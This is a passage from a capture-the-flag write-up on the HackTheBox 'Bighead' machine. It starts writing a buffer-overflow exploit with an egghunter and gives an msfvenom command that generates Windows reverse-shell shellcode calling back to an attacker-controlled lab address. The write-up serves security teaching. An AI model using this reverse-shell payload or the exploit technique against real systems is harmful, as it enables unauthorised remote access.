 ![](/images/hackthebox/bighead/75.png)
#### As we can see the whole request is printed in the memory. With this information now we can write the exploit.
<br>
<hr>
### Writing the Exploit
#### First thing is the imports, I imported `socket`,`binascii` and `re` 
```
import socket
import binascii
import re
```
#### Then I started to define the variables , we need variables to hold the host, the port, the egg, the shellcode and the egghunter. Let's generate the shellcode first :
`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.xx.xx LPORT=1337 -b '\x00' -f python`
![](/images/hackthebox/bighead/76.png)
